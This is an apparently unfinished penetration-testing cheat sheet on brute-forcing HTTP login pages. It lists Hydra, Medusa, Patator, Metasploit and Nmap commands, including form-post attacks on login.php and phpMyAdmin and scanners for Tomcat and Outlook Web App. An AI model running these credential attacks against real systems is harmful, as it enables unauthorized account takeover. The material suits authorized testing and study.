 # HTTP

## 01 - Manual

TODO: Check out the references related to **Default HTTP Login Hunter** script

## 02 - Hydra

TODO: Provide every syntax of it's usage for hydra to brute force whatever type of http and provide an example of how to use it

### 2.1 - HTTP\[s\]-HEAD

`$ hydra -U http[s]-head`

### 2.2 - HTTP\[s\]-GET

`$ hydra -U http[s]-get`

### 2.3 - HTTP\[s\]-POST

`$ hydra -U http[s]-post`

### 2.4 - HTTP\[s\]-GET-FORM

`$ hydra -U http[s]-get-form`

### 2.5 - HTTP\[s\]-POST-FORM

`$ hydra -U http[s]-post-form`

`$ hydra http[s]-form-post <URL_path>:<form parameters>:<condition string>[:<optional>:<optional>]`

`$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:Incorrect Password" -vV -f <IP>`

`$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:F=<form name='login'" -vV -f <IP>`

- PHPMyAdmin Panel

`$ hydra -L users.lst -P passwords.lst http-form-post "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^:#1045 Cannot log in to the MySQL server" -vV -f <IP>`

### 2.6 - HTTP-PROXY

`$ hydra -U http-proxy`

### 2.6 - HTTP-PROXY-URLEnum

`$ hydra -U http-proxy-urlenum`

## 03 - Medusa

- HTTP login popup form

`$ medusa -h <IP> -u <username> -P password.lst -M http -m DIR:/<URL_path>`

## 04 - Patator

TODO: Provide more examples

`$ patator http_fuzz method=GET url=<URL> 0=passwords.lst header="Cookie: <cookie_session>" --threads=2 timeout=15 -x quit:fgrep!='<Error_message_response>',clen!='-1'`

## 05 - Metasploit

TODO: Finish this information

Regular http login form

`msf > use auxiliary/scanner/http/http_login`

- PhpMyAdmin

`msf > use auxiliary/scanner/http/phpmyadmin_login`

- Apache Tomcat

`msf > use auxiliary/scanner/http/tomcat_mgr_login`

- Glassfish

`msf > use auxiliary/scanner/http/glassfish_login`

- Outlook Web App

`msf > use auxiliary/scanner/http/owa_login`

- Buffalo

`msf > use auxiliary/scanner/http/buffalo_login`

## 06 - Nmap

TODO: Fill in this information

`$ nmap --script form-brute`

`$ nmap --script http-frontpage-login`

`$ nmap --script http-proxy-brute`

`$ nmap --script http-joomla-brute`

---
## References

- [Default HTTP Login Hunter](https://github.com/InfosecMatter/default-http-login-hunter)

- [Default Password Scanner Default HTTP Login Hunter](https://www.infosecmatter.com/default-password-scanner-default-http-login-hunter-sh/)

- [NNdefaccts](https://github.com/nnposter/nndefaccts)

- [How to use Hydra to brute force login forms](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)